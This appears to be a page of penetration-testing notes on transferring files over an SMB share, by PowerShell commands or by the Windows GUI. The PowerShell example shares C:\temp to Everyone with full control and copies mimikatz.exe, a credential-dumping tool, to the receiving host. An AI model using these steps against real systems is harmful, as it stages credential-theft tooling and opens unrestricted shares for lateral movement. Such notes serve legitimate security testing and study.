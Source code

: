 # SMB Share

<details>

<summary>Powershell Method</summary>

On Sender:

```
Set-SmbServerConfiguration -EnableSMB2Protocol $true -Force
net share PublicShare=C:\temp /GRANT:Everyone,FULL
```

On Receiver:

```
copy \\appsrv01\PublicShare\mimikatz.exe .
```

</details>

<details>

<summary>GUI Method</summary>

* Right click --> New --> Folder --> name it
  * ![](<../.gitbook/assets/image (1).png>)\

* Right click folder --> Properties --> Sharing --> Advanced Sharing --> Share this folder --> Permissions
  *

      <figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>


  *

      <figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

      <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>


  * Set SMB Share permissions (Full Control --> allow for all)
    *

        <figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>


    *

        <figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

</details>
